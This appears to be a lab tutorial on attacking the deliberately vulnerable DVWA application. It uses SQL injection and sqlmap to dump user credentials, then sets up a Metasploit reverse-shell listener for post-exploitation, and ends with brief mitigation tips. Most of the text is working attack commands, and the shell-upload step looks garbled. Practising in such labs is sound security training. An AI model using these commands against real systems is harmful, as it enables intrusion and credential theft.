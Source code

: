 ## **Exploiting SQL Injection on DVWA Using SQLmap and Metasploit**  

In this guide, we’ll exploit **Damn Vulnerable Web Application (DVWA)** using **SQLmap** to find an SQL Injection vulnerability and then use **Metasploit** to gain a reverse shell.  

---

## **1. Setting Up the DVWA Environment**  
### **1.1 Install DVWA on Kali Linux**  
If you don’t already have DVWA installed, set it up using:  

```bash
sudo apt update
sudo apt install apache2 mariadb-server php php-mysqli php-gd libapache2-mod-php
```

Download and set up DVWA:  
```bash
git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
sudo chmod -R 777 /var/www/html/dvwa
sudo chown -R www-data:www-data /var/www/html/dvwa
sudo systemctl restart apache2 mariadb
```

### **1.2 Configure DVWA**  
1. Navigate to `http://localhost/dvwa/setup.php`.  
2. Click **“Create / Reset Database”**.  
3. Log in with **admin/password**.  
4. Set **DVWA Security Level to Low** (Go to `DVWA Security` settings).  

---

## **2. Exploiting SQL Injection with SQLmap**  
Once DVWA is running, find a vulnerable parameter.

### **2.1 Identify a Vulnerable Endpoint**  
Go to `http://localhost/dvwa/vulnerabilities/sqli/` and enter:  
```sql
' OR 1=1 --
```
If the response changes, the parameter is vulnerable.

### **2.2 Use SQLmap to Exploit the Vulnerability**  
Run SQLmap to detect SQL injection on DVWA:  
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" --dbs
```
Replace `PHPSESSID=xxxxx` with your session ID from the browser (Inspect > Storage > Cookies).  

This command:  
✅ Identifies databases in MySQL  

### **2.3 Extract Tables and Columns**  
Find tables in `dvwa` database:  
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" -D dvwa --tables
```
Find columns in the `users` table:  
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" -D dvwa -T users --columns
```

### **2.4 Dump User Credentials**  
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" -D dvwa -T users --dump
```
✅ This extracts **usernames and hashed passwords**.

---

## **3. Gaining Shell Access via Metasploit**  
We will now escalate the attack using **Metasploit**.

### **3.1 Check if Command Execution is Possible**  
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" --os-shell
```
If successful, you’ll get an interactive shell.

### **3.2 Inject a Metasploit Reverse Shell**  
1. Open Metasploit:  
   ```bash
   msfconsole
   ```

2. Set up a listener:  
   ```bash
   use exploit/multi/handler
   set payload php/meterpreter/reverse_tcp
   set LHOST <your Kali IP>
   set LPORT 4444
   exploit
   ```

3. Inject a PHP reverse shell using SQLmap:  
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" --file-write=/var/www/html/dvwa/shell.php --file-dest=/var/www/html/dvwa/shell.php
   ```

4. Execute the shell:  
   ```
   curl http://localhost/dvwa/shell.php
   ```
   Now check your Metasploit listener—**you should have a meterpreter session**.  

---

## **4. Post-Exploitation**
Once inside, you can:  
✅ **Dump database contents**  
✅ **Escalate privileges**  
✅ **Download sensitive files**  

Try:  
```bash
meterpreter> sysinfo
meterpreter> shell
```

---

## **5. Mitigation & Defense**  
To prevent SQL Injection:  
✅ Use **Prepared Statements**  
✅ **Sanitize Input** (`htmlspecialchars()`, `mysqli_real_escape_string()`)  
✅ **Limit Database Privileges**  
✅ Use a **Web Application Firewall (WAF)**  
